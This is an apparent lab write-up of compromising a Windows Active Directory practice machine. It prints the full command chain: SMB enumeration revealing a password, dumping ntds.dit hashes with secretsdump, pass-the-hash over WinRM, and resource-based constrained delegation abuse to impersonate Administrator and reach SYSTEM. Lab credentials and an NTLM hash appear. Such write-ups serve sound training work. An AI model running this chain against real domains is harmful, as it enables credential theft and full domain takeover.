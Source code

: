 #Pwned #AD #Windows #Bloodhound #TGS
```IP
192.168.154.175
```
## Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.154.175 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-25 09:43:12Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125 
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125 
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125                                                                          
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
```
## SMB
As always I see SMB service open, I enumerate it with nxc tool, tinkering with different blank parameters to see if Guest account is available. In this case it seems that no shares are available:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025114625.png?raw=true)

When attempting the same enumeration with enum4linux, which automatically dumps a lot of information, it prompts the description of the users in the machine. For V.Ventz a password is disclosed as shown below:
```
enum4linux -a -u "" -p "" 192.168.154.175 && enum4linux -a -u "guest" -p "" 192.168.154.175
```

```index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain                                                                                                
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god                                                                                                                         
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert                                                                                                                                     
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain                                                                                                      
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist                                                                                                                                 
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer                                                                                                                                            
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account                                                                                                                       
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin                                                                                                                                              
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin                                                                                                                                           
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer                                                                                                                                     
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin                                                                                                                                        
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist                                               index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!                                                                                                              
user:[Administrator] rid:[0x1f4]                                                                                                                                                                                                            
user:[Guest] rid:[0x1f5]                                                                                                                                                                                                                    
user:[krbtgt] rid:[0x1f6]                                                                                                                                                                                                                   
user:[M.Mason] rid:[0x44f]                                                                                                                                                                                                                  
user:[K.Keen] rid:[0x450]                                                                                                                                                                                                                   
user:[L.Livingstone] rid:[0x451]                                                                                                                                                                                                            
user:[J.Johnson] rid:[0x452]                                                                                                                                                                                                                
user:[V.Ventz] rid:[0x453]                                                                                                                                                                                                                  
user:[S.Swanson] rid:[0x454]                                                                                                                                                                                                                
user:[P.Parker] rid:[0x455]                                                                                                                                                                                                                 
user:[R.Robinson] rid:[0x456]                                                                                                                                                                                                               
user:[D.Durant] rid:[0x457]                                                                                                                                                                                                                 
user:[G.Goldberg] rid:[0x458] 
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025120730.png?raw=true)

With the new credentials we gain access to SMB service. Upon examination, we see a `Password Audit` share that contains some sensitive files such as SYSTEM and ntds.dit.
```
smbclient -U 'V.Ventz' --password='HotelCalifornia194!' \\\\192.168.154.175\\'Password Audit'
```
With impacket secretsdump tool we can extract the NTLM hashes that these files contain:
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
We can try to decrypt them with hashcat but it will not work:
```
hashcat -m 1000 -w 3 -a 0 -p : --session=all — username -o ./cracked.out --outfile-format=3 ./secrets.dump.ntds /usr/share/wordlists/rockyou.txt --potfile-path ./hashcat.pot
```
## WINRM
With nxc we can spray the obtained hashes with the previous obtained users to see if any of them matches:
```
nxc winrm 192.168.154.175 -u users.txt -H hashes.txt
```
It seems like we have a hit for L.Livingstone. The next step is using the evil-winrm functionality to pass the hash for this user and gain remote access:
```
evil-winrm -i 192.168.154.175 -u 'L.Livingstone' -H '19a3a7550ce8c505c2d46b5e39d6f808'
```
It let us in!

# PrivEsc

## Manual
Once we have remote access we should inmediately check the permissions and groups of our current user with `whoami /all` as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025132137.png?raw=true)

Unfornunately, nothing interesting shows up.
## Automated

### Bloodhound

After some unsuccessful manual enumeration, we can execute bloodhound to see if we have missed something. It seems like our current user has a GenericAll permission over the Domain.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025154635.png?raw=true)

Therefore, we can create a computer named ATTACK belonging to this domain as shown below:

```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'Password123!'
```

Next, we will modify the delegation rights of ATTACK to impersonate other users:
```
python3 rbcd.py -action write -delegate-to "RESOURCEDC$" -delegate-from "ATTACK$" -dc-ip 192.168.154.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced/l.livingstone
```

And now we could request a TGS ticket for this newly added computer and Administrator user:
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'Password123!' -impersonate Administrator -dc-ip 192.168.154.175
```

Export the obtained ticket with the following command:
```
export KRB5CCNAME=$PWD/Administrator.ccache
```
Those steps are shown in the image below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025165358.png?raw=true)

Now we need to assess that we have added correctly the domain to our /etc/hosts file and only then it is possible to connect with psexec with the following command:
```
impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.154.175
```

And we are NT Authority\System as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241025183317.png?raw=true)

Pwned!